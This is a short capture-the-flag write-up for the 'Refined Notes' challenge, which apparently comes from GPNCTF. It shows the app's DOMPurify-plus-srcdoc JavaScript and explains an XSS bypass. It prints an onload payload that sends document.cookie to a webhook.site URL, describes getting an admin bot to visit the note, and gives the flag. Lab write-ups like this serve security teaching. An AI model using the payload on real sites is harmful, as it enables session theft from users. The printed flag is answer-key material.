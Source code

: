 
All my friends warned me about xss, so I created this note taking app that only accepts "refined" Notes.

![Alt text](image-2.png)

Refined Notes is a challenge where we create a note and and id is created with the text we submitted.
Once we click on the button to create a note the following javascript is executed:

```js
submit.addEventListener('click', (e) => {
    const purified = DOMPurify.sanitize(note.value);
    fetch("/", {
        method: "POST",
        body: purified
    }).then(response => response.text()).then((id) => {
        window.history.pushState({page: ''}, id, `/${id}`);
        submit.classList.add('hidden');
        note.classList.add('hidden');
        noteframe.classList.remove('hidden');
        noteframe.srcdoc = purified;
    });
});
```

It uses DOMPurify to sanitize the input.
Then it renders the payload to an attribute called srcdoc inside an iframe tag:

![Alt text](image.png)

Basically we inject inline JS in the srcdoc attribute:

" onload="fetch('https://webhook.site/f01debc3-c5e8-4a9f-ab8f-2189a1656cae/'+document.cookie)

Then use the note id and send it to the bot that will visit it:

![Alt text](image-1.png)

Flag: `GPNCTF{3nc0d1ng_1s_th3_r00t_0f_4ll_3v1l}`

